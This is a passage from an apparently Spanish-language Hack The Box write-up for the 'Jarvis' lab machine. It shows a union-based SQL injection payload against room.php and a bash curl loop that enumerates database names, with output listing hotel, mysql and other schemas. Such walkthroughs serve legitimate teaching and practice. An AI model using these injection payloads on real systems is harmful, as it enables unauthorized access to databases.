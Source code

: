  ![](/assets/images/htb-jarvis/jarvis-web5.png)

 - 10.10.10.143/room.php?cod=0 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 0,1-- - > Vemos las bases de datos en el servidor y vamos recorriendolas con `limit 0,1`, `limit 1,1`, `limit 2,1` y así sucesivamente. Por lo que tenemos las siguientes bases de datos:
	 - hotel
	 - information_schema
	 -  mysql
	 - performance_schema

Una forma de obtener las tablas sería con el siguiente comando:

```bash
❯ for i in $(seq 0 10); do echo "[*] DB $i: $(curl -s "http://10.10.10.143/room.php?cod=0%20union%20select%201,2,schema_name,4,5,6,7%20from%20information_schema.schemata%20limit%20$i,1--%20-" | grep "price-room" | awk '{print $2}' FS=">" | cut -d '<' -f 1)"; sleep 2; done
[*] DB 0: hotel
[*] DB 1: information_schema
[*] DB 2: mysql
[*] DB 3: performance_schema
[*] DB 4: 
[*] DB 5: 
^C#
```
